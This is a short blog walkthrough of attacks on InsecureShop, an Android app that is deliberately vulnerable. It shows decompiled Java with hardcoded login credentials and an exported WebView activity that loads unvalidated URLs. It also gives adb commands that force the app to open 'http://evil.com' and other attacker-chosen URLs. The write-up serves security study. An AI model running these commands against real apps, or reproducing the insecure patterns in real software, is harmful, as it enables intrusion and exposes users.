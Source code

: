 ```yaml
---
title: InsecureShop app Walkthrough
date: 2024-04-30 00:00:00 +0530
categories: [Android, Pentesting]
tags: [android, re]
---
```


Hello all! 

This is going to be a short walkthrough or writeup of the `InsecureShop` app. 

In my previous blog I added a lot of theory and workings of each functionality so I thought to make this a little less detailed. With a little bit of objective and solutions. 

### Login

Objective : To find a way to login to the app. 

Solution : 

There was no option to register and we had to login to enter the app. I revewied the `LoginActivity` class and could see the username and password being checked. And finally in the `Util` class we can see that this was hardcoded. 

```java
    private final HashMap<String, String> getUserCreds() {
        HashMap userCreds = new HashMap();
        userCreds.put("shopuser", "!ns3csh0p");
        return userCreds;
    }
```

### WebView2 Acitivty

Objective : To find a way to load arbitrary URIs on the app's webview

Solution : 

The next thing I noticed was the `More Info` link on each item. When I clicked, I saw that it loads the insecureshop URL in it's webview. This was the activity which was being launched and it is exported too `WebView2Activity`. 

```java
Intent extraIntent = (Intent) getIntent().getParcelableExtra("extra_intent");
        if (extraIntent != null) {
            startActivity(extraIntent);
            finish();
            return;
        }
```

We can start this activity with an intent named "extra_intent" 

```java
String dataString = intent.getDataString();
        if (!(dataString == null || StringsKt.isBlank(dataString))) {
            Intent intent2 = getIntent();
            Intrinsics.checkExpressionValueIsNotNull(intent2, "intent");
            webview.loadUrl(intent2.getDataString());
            return;
        }
```

The data URL which is being loaded into the webview is not validated or checked properly. 

Combining all this, I was able to load http://evil.com in the apps webview. 

`adb shell am start -a android.intent.action.MAIN -n com.insecureshop/.WebView2Activity -e extra_intent -data "http://evil.com"`


### WebView Activity

When path is /web

`adb shell am start -a android.intent.action.MAIN -n com.insecureshop/.WebViewActivity -d "http://example.com/web?url=http://example.com"`

when path is /webview

`adb shell am start -a android.intent.action.MAIN -n com.insecureshop/.WebViewActivity -d "http://example.com/webview?url=insecureshopapp.com"`




